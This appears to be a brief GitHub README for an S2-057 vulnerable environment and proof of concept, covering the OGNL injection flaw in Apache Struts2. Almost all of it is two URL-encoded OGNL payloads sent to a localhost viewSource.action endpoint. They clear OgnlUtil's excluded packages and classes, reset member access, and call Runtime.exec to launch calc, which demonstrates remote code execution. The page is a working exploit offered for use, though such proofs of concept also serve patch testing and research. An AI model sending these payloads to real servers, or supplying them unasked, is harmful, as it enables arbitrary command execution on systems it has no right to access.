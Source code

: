# S2-057
S2-057 vul environment &amp; poc
poc

http://localhost:8888/$%7B(%23dm%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3d%23request['struts.valueStack'].context).(%23cr%3d%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou%3d%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23cmd%3d%40java.lang.Runtime%40getRuntime().exec(%22calc%22))%7D/viewSource.action



http://localhost:8888/$%7B(%23dm%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3d%23request['struts.valueStack'].context).(%23cr%3d%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ct.setMemberAccess(%23dm)).(%23cmd%3d%40java.lang.Runtime%40getRuntime().exec(%22calc%22))%7D/viewSource.action
